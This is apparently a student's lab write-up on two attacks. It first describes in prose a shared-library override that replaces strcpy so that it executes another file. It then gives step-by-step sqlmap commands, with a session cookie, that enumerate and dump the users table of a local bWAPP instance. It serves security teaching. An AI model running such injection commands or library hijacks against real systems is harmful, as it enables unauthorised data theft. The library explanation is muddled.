 ## 3. Attack
**Explanation:**
I will use the directory `stuff` to resolve the problem in Kali
In this context, the process of compiling a C source file into an object file and then mapping it into a shared object (likely a `.so` file in Unix-like systems). A shared object is similar to a library (like `libc`), which contains predefined functions that can be dynamically linked and used by programs at runtime.
![evattack c file](https://github.com/user-attachments/assets/dc2a92c7-61e6-4f39-8bcf-f2054603dfb0)

In the example:

1. **Compiling to Object File:** The source file is compiled into an object file.
2. **Mapping to Shared Object:** This object file is then converted into a shared object (likely with the `-shared` option in GCC).
3. **Dynamic Linking:** When a program is executed, it maps the shared object into memory and dynamically links to the functions defined inside the object.
4. **Original Call:** The original program was calling the `strcpy` function.
5. **Renaming Function:** The user has renamed the function to something else but mentions that it’s not a direct copy operation (as `strcpy` would normally do). Instead, it executes another file.

**Explain**

# Task 2: Exploit using SQLmap
## Prepare the enviroment, SQLmap
First, docker pull the bwapp back
![bwaap](https://github.com/user-attachments/assets/8079c86c-a957-44ee-8abc-0303a5e652bb)
Then we can go to the (http://localhost:8025/portal.php) page.
Now, download SQLmap
![378802823-9f22c6d9-edf0-44cf-84a6-c714699317b4](https://github.com/user-attachments/assets/92ced7e2-64ec-4549-834f-b871d2590021)
Then, we fetch the cookie fromt the website, which will help us for the login 
![cookie](https://github.com/user-attachments/assets/10b49cda-eeb6-4703-b7ca-4959cdd819fb)
Then, only then do we go to the sqlmap to use the cookie for the task:
```
sqlmap "http://localhost:8025/sqli_2.php?movie=1&action=go" --cookie="PHPSESSID=b33dsn3vocd3ke553id75ohpo6; security_level=0" --dbs
```
Then, after sqlmap queries done, we get the results, which is 4 databases:
+bWAPP
+information_schema
+mysql
+performance_schema
![databases](https://github.com/user-attachments/assets/75678c5b-8e68-49ad-b032-a8cd7d0b3025)
<br>
As of now, we can fetch from given tables
```
sqlmap "http://localhost:8025/sqli_2.php?movie=1&action=go" --cookie="PHPSESSID=b33dsn3vocd3ke553id75ohpo6; security_level=0" -D bWAPP --tables
```
which we will test on table `bwAPP`
![bwAPPdatabase](https://github.com/user-attachments/assets/858b7834-f82e-458f-aea4-93940c9a528f)
We retrived 5 categories inside the table, but table `users` seems to have valueable information, so let's try to get info out of it
```
 sqlmap "http://localhost:8025/sqli_2.php?movie=1&action=go" --cookie="PHPSESSID=b33dsn3vocd3ke553id75ohpo6; security_level=0" -D bWAPP -T users --dump
```
Specifies the value of element `users` inside the tables by `T users` and then `dump` the content of the whole table out
![tableuserwpwd](https://github.com/user-attachments/assets/7d486172-9bb4-4c0f-a743-2f84f484ab19)
